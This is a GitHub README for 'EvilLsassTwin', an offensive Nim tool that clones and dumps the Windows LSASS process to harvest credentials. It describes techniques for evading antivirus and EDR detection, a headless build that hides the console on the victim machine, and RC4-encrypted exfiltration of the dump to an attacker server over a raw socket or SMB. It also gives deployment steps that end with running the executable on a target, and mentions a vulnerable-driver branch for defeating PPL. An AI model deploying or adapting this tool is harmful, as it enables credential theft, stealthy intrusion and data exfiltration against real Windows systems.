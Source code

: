 # Evil Lsass Twin
Originally, a port of the [Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity) project to fork and dump the LSASS process. Has been updated upon further research to attempt to duplicate open handles to LSASS. If this fails (and it likely will), it will attempt to obtain a handle to LSASS through the `NtGetNextProcess` function instead of `OpenProcess`/`NtOpenProcess`. 

Nim, by default (or rather the Winim module) makes use of dynamic function resolution for Windows API functions, ~~so the IAT should only include a reference to GetProcAddress and LoadLibrary (for better or worse)~~ so the IAT will only contain certain functions standard across all Nim executables.

The process cloning functionality has been updated to use make use of `NtCreateProcessEx` instead of `RtlCreateProcessReflection` as this only requires `PROCESS_CREATE_PROCESS` and does not create an initial thread (thereby triggering process creation kernel callbacks). 

Partial implementation of Process Ghosting technique is included to make use of the Delete On Close functionality. 

How this works: 
1. `MiniDumpWriteDump` function is used to dump forked LSASS process's memory into a file on-disk.
2. File is marked with Delete on Close and does not allow other threads to access it simultaneously.
3. File is mapped into memory
4. File is deleted after open handle to it is closed
5. Mapped Data (memory dump) is encrypted and saved to disk *or* sent to server

This will only occur if the tool is set to use the standard Win32 `MiniDumpWriteDump` API function. By default, EvilLsassTwin uses a custom minidump function on the process fork that will keep the data in memory unless set to save to disk. This allows EvilLsassTwin to keep the dump size to a minimum. 

Requires the `winim` and `ptr_math` modules. Several IOCs and opportunities for detection since this simple port was not originally built with stealth in mind. However, as noted above, this project _does_ include some stealthy features. 

Tested on Windows 10 22H2 and Windows 11 with Defender enabled (Cloud Analysis disabled).

Must be run from an Administrator Command Prompt or Powershell as EvilLsassTwin depends on `SeDebugPrivilege`. 

_Note: SeDebugPrvilege is enabled by default on Elevated Powershell._

_Note: Tool will **not** work against PPL (try the PPL branch) or Credential Guard. Tool also will not work when EDRs patch LSASS a la [Cortex XDR Modifications](https://www.paloaltonetworks.com/blog/security-operations/detecting-credential-stealing-with-cortex-xdr/)_

# Usage
This project was developed and tested with Nim 1.6.10 and 1.6.14. It is **not** compatible with Nim 2.0.

1. Install Dependencies with `nim dependencies` or through Nimble package manager (Atlas not yet tested)
2. Configure settings from lines 15 to 25. Settings include Server IP and Port, SMB Share Name, saving to disk, minidump method (*set to either **useCustom** or **useTraditional***), and exfil method (*set to either **useRaw** or **useSMB***)
4. Compile the project with `nim build`. _Note: this assumes EvilTwinServer will be run on a Linux machine. Manual compilation required otherwise_
5. If **not** set to save to file: `chmod +x EvilTwinServer && ./EvilTwinServer`
6. Transfer EvilLsassTwin.exe to (Windows) target machine and Run.

# Why's
## Why RC4?
Simplicity. A simple call to `SystemFunction032` is all it takes to implement. Nothing else to code. Entropy isn't sky-high. And it's good enough.

## Why code changes instead of command-line parameters?
First, I don't like Nim's command-line parsing options. Second, if you can't make those simple changes to the code, you probably shouldn't be using this. Third, no command-line parameters means no need for command-line spoofing. Fourth, every code modification, no matter how big or small also changes the file hash. Not a huge "win", but I'll take it.

## Why Nim?
I wrote an entire blog post about this. See: [Why Nim? - RePRGM](https://reprgm.github.io/2023/02/13/why-nim/)

## Why a PPL branch?
BYOVD is a cool technique but it has it's downsides. For one, the vulnerable driver is included in and extracted from the `EvilLsassTwin` executable to make things simpler. Those bytes could be flagged by AV/EDR. The vulnerable driver itself is also on the Microsoft Driver Blocklist so that is another potential issue. Not to mention, an unknown executable is attempting to install a known-vulnerable driver. Then, there's the file creation for the driver and the subsequent creation of a (driver) service. 

So, yeah. High-risk, high-reward. I thought it would be better to keep all of that in a separate branch.

# Important Notes
By default, EvilLsassTwin *will* use RC4 to encrypt the dump and display the encryption key in hexadecimal in the console. EvilTwinServer will attempt to decrypt the dump file automatically for you. However, if this fails, you will have to decrypt the file yourself. This can be done with OpenSSL. Take note of the command used in either the terminal (if running) or in the `EvilTwinServer.nim` file!

Alternatively, if you **don't** want a console screen popping up on the target machine, a "headless" build can be done. Take note of the build command in the `config.nims` file and add option `--app:gui`. Doing so will require you to either use EvilTwinServer or create a custom script/application. This is due to EvilLsassTwin sending the encryption key and then the dump in that order. Should another application be used without modification to the `EvilLsassTwin.nim` file, both encryption key and data are likely to be included in the same file, rendering the dump file useless without even further modification. 

EvilTwinServer is **not** required with a standard build. With a simple change to the `EvilLsassTwin.nim` file, another application may be used to receive the encrypted dump file. To do so, simply comment out or remove the following lines: 
```nim
echo "[!] Sending Encryption Key to Server..."
        if not socket.trySend(rc4KeyStr):
            echo "[-] Could Not Send Encryption Key to Server!"
```

Also of note, the custom minidump function is not complete as of now. This means **only** NTLM hashes will be found by tools such as Mimikatz and Pypykatz. For anything else, you will need to configure the tool to use the `MiniDumpWriteDump` function which also will result in large (~50+ MB) dump files. It is because this custom function is not complete that the option to use the traditional API function is there.

Lastly, the tool has **not** been tested being loaded reflectively. If this is what you want, a quote from @byt3bl33d3r on the [Offensive Nim](https://github.com/byt3bl33d3r/OffensiveNim) page:

> By default, Nim doesn't generate PE's with a relocation table which is needed by most tools that reflectively load EXE's.

> To generate a Nim executable with a relocation section you need to pass a few additional flags to the linker.

> Specifically: --passL:-Wl,--dynamicbase

> Full example command:

> `nim c --passL:-Wl,--dynamicbase my_awesome_malwarez.nim`

# Resources
[Bill Demirkapi - Abusing Windows Implemention of Fork for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)

[Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity)

[TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump/tree/master)

[Rasta Mouse - Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)

[Rasta Mouse - Duplicating Handles in C#](https://rastamouse.me/duplicating-handles-in-csharp/)

[Splintercod3 - The Hidden Side of Seclogon - Part 2](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)

[Diversenok - The Definitive Guide to Process Cloning on Windows](https://diversenok.github.io/2023/04/20/Process-Cloning.html)

[NativeDump](https://github.com/ricardojoserf/NativeDump)

[NanoDump](https://github.com/fortra/nanodump)
